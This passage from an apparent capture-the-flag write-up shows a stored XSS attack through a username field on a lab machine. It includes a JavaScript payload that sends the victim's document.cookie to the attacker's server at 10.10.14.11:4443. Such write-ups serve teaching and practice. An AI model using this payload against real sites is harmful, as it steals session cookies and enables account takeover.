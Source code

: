 ![earlyaccess-sent](/assets/images/2022-01-30-22-37-51.png)

Another clue, this one suggesting there's a script running to read the messages sent.

## XSS Exploit

It took me way to long to figure out what to do next! The first clue was that the username is vulnerable, it turns out you can do XSS with it. So first of all I found [this](https://stackoverflow.com/questions/247483/http-get-request-in-javascript):

```js
function httpGet(theUrl)
{
        var xmlHttp = new XMLHttpRequest();
        xmlHttp.open("GET", theUrl, false);
        xmlHttp.send(null);
        return xmlHttp.responseText;
}
httpGet("https://10.10.14.11:4443/"+document.cookie);
```

I've saved that to a file on Kali called pencer.js, then start a webserver there so the box can get to it.

Now we need to call it by using XSS in my username on the profile page:

![pencer-profile](/assets/images/2022-01-30-22-41-30.png)

